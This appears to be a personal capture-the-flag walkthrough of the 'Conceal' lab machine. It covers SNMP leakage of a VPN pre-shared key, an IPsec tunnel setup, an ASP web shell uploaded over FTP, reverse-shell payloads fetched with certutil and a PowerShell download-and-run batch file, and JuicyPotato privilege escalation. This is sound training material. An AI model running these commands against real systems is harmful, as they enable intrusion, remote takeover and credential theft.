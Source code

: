 **Ping**
![[Pasted image 20240626182029.png]]

**Nmap Scans**
```
mapit 10.10.10.116
```

Nmap Default  Scan
![[Pasted image 20240628102850.png]]
Can't see anything... :(

Nmap Script and Service Scan
![[Pasted image 20240628102938.png]]
We got some OS info here

Nmap All Port Scan
![[Pasted image 20240628104740.png]]
Still there is no TCP ports

Nmap UDP Scan
![[Pasted image 20240628155511.png]]


Now will run snmpwalk to retrieve info
```
snmpwalk -c public -v1 -t 10 10.10.10.116
```
![[Pasted image 20240628155914.png]]
IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43

Now Port 500
Hacktricks webpage: https://book.hacktricks.xyz/network-services-pentesting/ipsec-ike-vpn-pentesting
![[Pasted image 20240628160717.png]]
![[Pasted image 20240628160817.png]]

Will use the tool to find some Valuable Info
```
ike-scan -M 10.10.10.116
```
![[Pasted image 20240628160913.png]]
We found Encryption and hashing Method, it is Triple-DES and SHA1, Auth type is PSK(Pre Shared Key), We have the Pre Shared key right...!  **9C8B1A372B1878851BE2C097031B6E43**

Will decrypt the Pre Shared Key
![[Pasted image 20240628161253.png]]
Found it, **Dudecake1!** 

We have connect to vpn via ipsec
Now have to edit /etc/ipsec.secret
```
%any : PSK "Dudecake1!"
```
![[Pasted image 20240628161927.png]]

Then add some info in /etc/ipsec.conf
```
config setup 
	charondebug="all" 
	uniqueids=yes 
	strictcrlpolicy=no 

conn concealh 
	authby=secret 
	auto=add 
	ike=3des-sha1-modp1024! 
	esp=3des-sha1! 
	type=transport 
	keyexchange=ikev1 
	left=10.10.14.9 
	right=10.10.10.116 
	rightsubnet=10.10.10.116[tcp]
```
![[Pasted image 20240628162110.png]]

Also install the app strongswan
```
apt install strongswan
```
![[Pasted image 20240628162310.png]]

Now will restart Ipsec
```
ipsec restart
```
![[Pasted image 20240628162454.png]]

Will up the Ipsec
```
ipsec up concealh
```
![[Pasted image 20240628162807.png]]

Now We are Connected Via tunnelling, will start our Nmap Scan again 
```
nmap -sT -p- --min-rate 10000 10.10.10.116 -oN anmap.txt
```
![[Pasted image 20240628170021.png]]

Service and Script Scan
```
nmap -sT -sC -sV -p21,80,135,139,445  10.10.10.116 -oN snmap.txt
```
![[Pasted image 20240628170109.png]]

FTP Enumeration
```
ftp 10.10.10.116
```
![[Pasted image 20240628170959.png]]
Nothing in FTP

SMB Enum
```
smbclient -U '' -L \\\\10.10.10.116\\\\
```
![[Pasted image 20240628170449.png]]

On Port 80
![[Pasted image 20240628170641.png]]

Gobuster Scan
```
gobuster dir -u http://10.10.10.116/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,aspx -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240628171040.png]]

Will check /upload dir
![[Pasted image 20240628171116.png]]
We can see the text file we uploaded via FTP is here



Will get a web shell using this, as it is IIS we can use cmdasp.aspx program to get a web shell
```
put cmdasp.aspx
```
![[Pasted image 20240628171406.png]]

![[Pasted image 20240628171422.png]]
Now we can't see the anmap.txt, may be it is deleted when we upload another file, or all files in this directory will be deleted in some interval of time

We got error while accessing the .aspx file, will upload .asp file to get a Web Shell
![[Pasted image 20240628171811.png]]

![[Pasted image 20240628171833.png]]
Yes, the file from the directory was is deleted in certain Interval of time, ok will try to access this.asp file and get web shell.

Got it
![[Pasted image 20240628172020.png]]

Will Upload a reverse shell binary
```
certutil -urlcache -f http://10.10.14.9/met.exe c:/users/public/met.exe
```
![[Pasted image 20240628173319.png]]
Already hosted python webserver on port 80, and it was served.

Now will trigger the Payload
```
c:/users/public/met.exe
```
![[Pasted image 20240628173205.png]]

Got Reverse Shell
![[Pasted image 20240628173234.png]]

I have entered in Powershell env
```
powershell
```
![[Pasted image 20240628173707.png]]

Found user.txt
```
Get-ChildItem -Path C:\Users -Include *.txt, *.log, *.kdbx, *.conf, *.ini, *.exe -File -Recurse -ErrorAction SilentlyContinue
```
![[Pasted image 20240628173622.png]]

Got User.txt
![[Pasted image 20240628174226.png]]
Both the flag are same, it is user.txt


Will jump To Privilege Escalation........!

My Privileges
```
whoami /priv
```
![[Pasted image 20240628180200.png]]

Will use Juicy potato's for Privilege escalation, for that will transfer the Juicypotato.exe and .bat file to the target system.

Mybat.bat file content
```
@ECHO OFF

powershell.exe -command "& invoke-webrequest -Uri 'http://10.10.14.9/met.exe' -OutFile C:\users\public\met.exe"; "C:\users\public\met.exe"
```
![[Pasted image 20240628180340.png]]

Now We have necessary files 
![[Pasted image 20240628180437.png]]

Will run the jc.exe which JuicyPotato.exe and the CLSID for this system we can find in the link
https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise/

Also We came to know about the system information from systeminfo
```
systeminfo
```
![[Pasted image 20240628180634.png]]

So I searched CLSID for nt authority/system for Windows 10 Enterprise, the link is provided above

Now will run the exploit
```
./jc.exe -p mybat.bat -l 443 -t * -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}"
```
![[Pasted image 20240628180804.png]]

Got Reverse Shell as Admin
![[Pasted image 20240628180840.png]]

**root.txt**
![[Pasted image 20240628181719.png]]
Both proof and root.txt is same flag.



Done With Conceal.......:)
